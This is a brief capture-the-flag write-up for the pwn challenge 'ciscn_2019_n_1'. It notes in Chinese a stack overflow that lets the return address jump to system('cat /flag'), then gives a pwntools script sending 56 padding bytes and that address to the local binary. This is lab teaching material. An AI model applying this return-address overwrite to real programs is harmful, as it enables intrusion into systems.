 ```yaml
---
title: "ciscn_2019_n_1"
description: ""
date: 2023-03-29T04:25:55+08:00
lastmod: 2023-03-29T04:25:55+08:00
draft: false
images: []
weight: 1000
toc: true
type: docs
---
```


## 0x01 分析

![a8aed923a28e0698e3ed01725f26a47c](images/a8aed923a28e0698e3ed01725f26a47c.png)  

存在溢出点，可以直接覆盖函数返回地址为 `system("cat /flag")`

## 0x02 Exploit

```python
from pwn import*
o = process("./pwn")
payload = b'a'*56 + p32(0x4006BE)
o.sendline(payload)
o.interactive()
```

![f113b22bf228f5af0121ac0630ce02f2](images/f113b22bf228f5af0121ac0630ce02f2.png)
